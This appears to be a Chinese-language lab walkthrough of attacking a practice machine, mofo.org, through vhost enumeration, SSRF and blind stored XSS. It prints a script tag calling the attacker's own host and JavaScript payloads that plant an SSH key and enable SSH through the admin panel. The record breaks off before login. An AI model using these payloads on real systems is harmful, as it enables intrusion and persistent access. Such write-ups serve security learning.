### 1.主机发现



### 2.Nmap扫描主机信息,发现只有web服务和dns解析服务



#### 3.访问web网站,发现是个nginx默认页面,也泄漏了用户的邮箱,@左边是用户名,右边是网站主域名.



#### 4.开始dns子域名枚举

```bash
gobuster vhost -u http://10.137.213.141 --append-domain --wordlist pp.txt --domain mofo.org
```



#### 发现3个子域名,先访问snap和www的子域,先做本地dns解析,在/etc/hosts这个文件里



#### snap网站



#### www网站



#### admin网站



#### admin网站提示外部ip被封锁,说明这个网站只允许内部ip访问,即这台靶机的内部vhost访问

##### 然后看snap网站,输入https://www.baidu.com可以访问到百度的官网




#### 在snap网站访问www.baidu.com的同时抓包



##### host字段说明我去访问snap.mofo.org这个网站,但是我输入的是百度的url,返回的的目标客户端却是靶机的nginx服务,然后nginx再返回给snap网站,snap再把相应内容返回给我,说白了就是snap这个网站的服务会用自己的内网ip代我们访问目标url,

##### 回到上面的admin.mofo.org


刚才也说了只允许内网ip访问这个网站,所以看看这里有有没有ssrf(服务端请求伪造)

##### 在snap网站访问http://admin.mofo.org

## 访问成功了,但是发现这里啥都点击不了

#### 因为这个服务是指向admin.mofo.org的,你当前的服务端是snap.mofo.org,snap只是代你访问admin网站返回静态结果给你,所以你啥都点击不了

但是可以用路径推测,在snap里访问

admin.mofo.org/key

admin.mofo.org/staff

admin.mofo.org/logs



## 注意这个admin.mofo.org这个页面,应该是个管理员用来做ssh密钥管理的



## 还有这个admin.mofo.org/key这里应该是管理员ssh密钥上传点,接下来思考用这个上传点来上传我们的公钥到目标后台



#### 右上角的support点击进去,有一个邮箱服务




##### 做了格式校验,只能抓包看内容



### 有一个_csrf字段,更改该字段的内容或者删掉该字段都能返回200状态码,说明这个字段的校验不严格或者说后端根本不校验这个字段,也不知道存储时候有没有转译这个字段的内容.因为这是一个邮箱服务,发送的请求体内容会保留在服务器的数据库里,当管理员登陆后台去访问这个邮件的时候,后端从数据库拿出这个邮件内容并且渲染成html内容给他看,因为在网站里看的,所以会渲染成html,运行在对方浏览器里,这个时候就有xss存储型攻击了,

### 虽然现在也不知道是不在网站后台看的邮件,如果不是网站后台看的邮件就用不了xss了,现在去验证是不是xss


#### 发送邮箱后的提示也说明可能是存储型xss,但是无法确定,我们去_csrf字段输入一个反射型xss的payload看一下回显,验证一下



##### 也没啥回显,那就试试盲打xss,在_csrf字段输入payload_

```bash
<script src="http://10.137.213.253:8000/qqq.txt"></script>
```

##### 这个是让对方浏览器来访问我的电脑下载一个qqq.txt文件,我们先用python开一个网站服务,需要开一下端口放行,不然靶机访问我们机器的消息会被防火墙给拦截掉,导致web服务一没有回显.



#### 别直接发,url编个码,因为上面的邮箱和问题描述也进行了编码

```

```



### 探针成功,存在xss,那就开始利用ssrf上传我们的密钥到后台服务机器



### 用js代码伪造http请求报文控制对方浏览器的这个界面上传我们的ssh密钥,有些复杂哈哈哈

##### 先在本地生成ssh密钥

```bash
ssh-keygen -t rsa -C 'jifewo' -f ./id_rsa
```



##### 把公钥id_rsa.pub上传到目标

#### js伪造http请求上传密钥payload

```javascript
var xhr = new XMLHttpRequest();

xhr.open('POST','http://admin.mofo.org/key',false);

var sshkeycontent = 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2/ususeS8ZPLSQ8k8R6nu7H0+XDhtTozpwGMHVFTgBtvEDSsI9YGegijtBSyNZRIJJYZKsQnp6SAe+KDF1bqw0xiDOd4A3n+6CknvYLJa+NcjdV/lHVT1U0x/U+goaPlxj278pYLT38ACgWxut9Yzqvj2PYCygRYexAy/JIl0qzGu6s2hOoTuWoYd6MJ5vHZX7QuYj29hA29rZo6/+P0+a3LYuakvkD17wTEZq/cooHqqcMFWu9qf7KPqPPsTxgPOkN1zjtDi7lR5eFKFJbzYUgfRHRcVwaJJX0dkg8je4qr85Z7+dofLGU+DLqh1TVe7XPlronfJJhqOgGjelMhKeYF1vZWescTTLYqSnciu9JlzT7xM3/xAhT9dDSqLALi1wUr99vDmcF+euSwt3kcVlRhj6jvHwx3Iu20Pw+qZV2PuEWBgfOvNHrI2jr0p7Fbo2TwF2kJF5Dbs2ORrIH+pBaqIP1NBefKYuOWjtG2H03kIskorBCP/nUURGJExlRE= PPPPPPPPPPPPP';

var fileblob = new Blob([sshkeycontent],{type: 'application/octet-stream'});//blod()是把word变成file的函数,并且然我们定义文件的类型

var fd = new FormData();
fd.append('file',fileblob,id_rsa.pub);
fd.append('Submit','Submit');

xhr.send(fd);
```

##### 然后把它包装进



#### 或者装进<script></script>里也可以

### 放在script里成功率更高

## 然后注入_csrf字段,让对方浏览器在请求错误资源后触发



## 上传后admin.mofo.org页面的key变成已加载状态,说明注入成功了,但是现在只显示ssh deactive 未激活ssh,服务器有密钥了,这个未激活ssh应该代表ssh服务没有打开,看一下ssh服务是否开放



##### 没有开放ssh服务,那个



#### 我们现在要伪造这个界面的请求报开放ssh的服务这个页面的url是admin.mofo.org,下面是payload

```bash
<script>var xhr =new XMLHttpRequest();xhr.open('POST','http://admin.mofo.org',false);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('Submit=Enable+SSH');</script>
```




### 成功了,去扫一波端口



### 开了😄

##### 但是现在我们没用用户名字啊,回到之前的那个admin.mofo.org/key页面

